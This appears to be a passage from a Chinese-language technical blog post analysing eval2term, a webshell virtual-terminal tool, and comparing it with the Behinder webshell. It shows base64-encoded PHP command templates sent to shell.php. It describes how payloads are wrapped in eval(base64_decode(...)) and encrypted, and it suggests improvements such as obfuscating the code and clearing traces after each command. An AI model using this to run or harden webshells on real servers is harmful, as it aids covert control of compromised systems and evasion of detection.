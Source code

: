 read读回显

```php
$type="cmVhZA==";
$type=base64_decode($type);
$bashPath="";
$bashPath=base64_decode($bashPath);
$cmd="";
$cmd=base64_decode($cmd);
$whatever="xxxxxxxxxxxxxx";
$whatever=base64_decode($whatever);

main($type,$bashPath,$cmd,$whatever);
```

stop停止终端

```php
$type="c3RvcA==";
$type=base64_decode($type);
$bashPath="";
$bashPath=base64_decode($bashPath);
$cmd="";
$cmd=base64_decode($cmd);
$whatever="xxxxxxxxxxxxxx";
$whatever=base64_decode($whatever);

main($type,$bashPath,$cmd,$whatever);
```

上面的代码就不用我细嗦了，都很好懂；不过实际上这并不是最终发送给shell.php的最终内容，代码仍然经过了多次包装；以读回显为例，入口在readRealCMD

![image-20220909112357030](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20220909112357030.png)

params指定了要使用的模板，其中的whatever变量是随机产生的垃圾值不需要管，之后调用Utils.getData对代码进行组装

![image-20220909112641792](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20220909112641792.png)

内部继续调用Params.getParamedPhp来确定代码内容（我们上面贴出来的就是对应模板下的返回值），经过b64编码和getBytes处理后再塞入`assert|eval(base64_decode('xxxx'));`中，之后再经过加密、b64编码、getBytes处理，这才是最终的传给shell.php的部分

### 取经

可以看出eval2term是一个迷你精简版的冰蝎虚拟终端 ~~（希望我这么说原作者不会打我 小孩子不懂事说着玩的）~~，核心逻辑上两者真的是一模一样的：在服务端创建进程管道，接收命令为标准输入，标准输出写入系统临时文件夹下的文件中，再不停地读出回显，稍有去别的点在于冰蝎充分利用了php session机制，使得待执行的命令和回显是分别通过session中的writeBuffer和readBuffer进行传递，并且每次执行完毕后都会清空对应变量和在服务端产生的文件

当然，我们的eval2term胜在go编译 天生的跨平台，并且轻便（相较于冰蝎），解决了内网中可能出现的多层代理问题，我总结了这几个可以借鉴冰蝎的思路：

- 添加对Windows的支持

- 利用上SESSION变量，也将待执行命令和回显临时存放进去
- 对PHP代码做混淆或加密处理（这一点也有待商榷，毕竟加解密会影响速度）
- 每次执行完命令后及时清楚痕迹
- 添加对方向键及特殊键的支持
- 优化代码结构
